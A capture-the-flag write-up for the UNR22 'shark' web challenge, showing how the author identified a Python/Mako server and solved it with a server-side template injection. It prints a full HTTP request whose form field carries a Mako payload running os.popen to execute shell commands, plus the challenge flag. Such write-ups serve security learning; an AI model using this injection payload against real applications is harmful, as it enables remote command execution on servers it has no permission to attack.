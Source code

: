 ```yaml
---
layout: post
author: hofill
title: shark
slug: shark
ctf: UNR22 Echipe
category: writeup
writeup_categories: ["web"]
tags: ["web", "SSTI", "mako"]
summary: Mako template injection
last_modified_at:
image: https://unr22-individual.cyberedu.ro/images/contests/BMwo9sxqDZaYqNem.png
---
```


# Legend
* [Challenge Description](#descr)
* [Flag Proof](#flagproof)
* [Summary](#summary)
* [Details](#details)

# Challenge Description {#descr}

Exploit the shark and get the flag!

# Flag Proof {#flagproof}

> CTF{4b08602e0090f81707b98ca687a5cacfd32888ffceef1d3cff2d99e6034b1e58}
>

# Summary {#summary}

Mako template injection

# Details {#details}

On the website given we have an input field, a button, and a hello message. Submitting any value will change the hello message to `Hello <message>!`.

Let’s see the headers of the response:

```bash
➜  ~ curl -I 34.107.115.255:30530                            
HTTP/1.0 200 OK
Content-Type: text/html; charset=utf-8
Content-Length: 213
Server: Werkzeug/2.0.3 Python/3.6.9
Date: Sat, 21 May 2022 21:13:26 GMT
```

We see that it’s a Python server, which means it could be vulnerable to **SSTI**. The title of the challenge mentions a `shark`, so the template engine must be `Mako`.

As such, we send the following payload (using BurpSuite):

```python
POST / HTTP/1.1
Host: 34.107.115.255:32539
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:100.0) Gecko/20100101 Firefox/100.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 59
Origin: <http://34.107.115.255:32539>
Connection: close
Referer: <http://34.107.115.255:32539/>
Upgrade-Insecure-Requests: 1

name=<%
import os
x=os.popen('cat flag').read() # initially 'ls' to see the files in the directory
%>
${x}

```

This gives out the flag, and we’ve completed the challenge.

CTF{4b08602e0090f81707b98ca687a5cacfd32888ffceef1d3cff2d99e6034b1e58}

